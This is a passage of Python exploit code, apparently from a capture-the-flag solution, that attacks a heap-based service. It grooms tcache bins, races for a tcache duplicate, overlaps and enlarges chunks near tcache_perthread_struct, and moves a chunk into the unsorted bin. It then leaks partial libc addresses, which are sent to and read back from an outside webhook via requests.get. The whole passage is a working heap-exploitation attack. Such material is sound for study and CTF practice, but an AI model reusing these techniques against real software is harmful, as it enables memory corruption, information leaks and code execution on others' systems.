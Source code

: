 ```python
    # doing so we can partially leak libc without corrupting unsortedbins

    # then we need to consume the unsortedbin
    # in this way the thread can't allocate from it (avoid heap mess and crash)

    # increase tcache count
    for i in range(2, 10):
        add(i, 1, b"")
    for i in range(6, 10):
        remove(i)

    # race to tcache-dup
    add(4, 1, b"")
    save(4, WEBHOOK)
    change(4, 6, b"asdasdasd")
    remove(4)
    time.sleep(4)

    # allocate a chunk above tcache_perthread_struct
    # this will be used to enlarge the chunk under it
    add(4, 1, b"")
    tcache_metadata = calculate_P1(heap+0x80, heap+0x6c0)
    mark, desc = gen_mark_desc(tcache_metadata)
    change(4, mark, desc)
    add(4, 1, b"")

    # allocate a chunk and one above it to change its size
    payload = p32(0) + p64(0)*3 + p64(heap+0x430) 
    add(4, 6, payload) # chunk above tcache_perthread_struct
    add(8, 1, b"")
    # small chunk to overlap and enlarge the one under it
    payload = p32(0) + p64(0)*3 + p64(heap+0x410) 
    change(4, 6, payload)
    # enlarge
    payload = p32(0) + p64(0)*2 + p64(0x441) 
    add(9, 6, payload)
    
    # put big chunk in unsortedbins
    remove(8)
    
    # add chunk from the one in unsortedbins (now we have 2 chunks pointing to libc)
    add(0, 1, b"")

    # we can save (free) one of them to leak 4 bytes of libc
    save(0, WEBHOOK)
    time.sleep(4)
    leak = int(requests.get(WEBHOOK.decode()+"bodies.txt").text.split("\n")[-2].split("mark=")[1])
    partial_libc = 0
    if leak < 0:
        partial_libc = (0x100000000 + leak)
    else:
        partial_libc = leak
    log.warning(f"partial libc: {hex(partial_libc)}")

    # -- consume unsortedbin --
    for _ in range(10):
        add(0, 1, b"")
    for i in range(3):
        add(i, 1, b"")
    # add entries to 0x40 tcache
    for i in range(3):
        remove(i)
    # -------------------------
```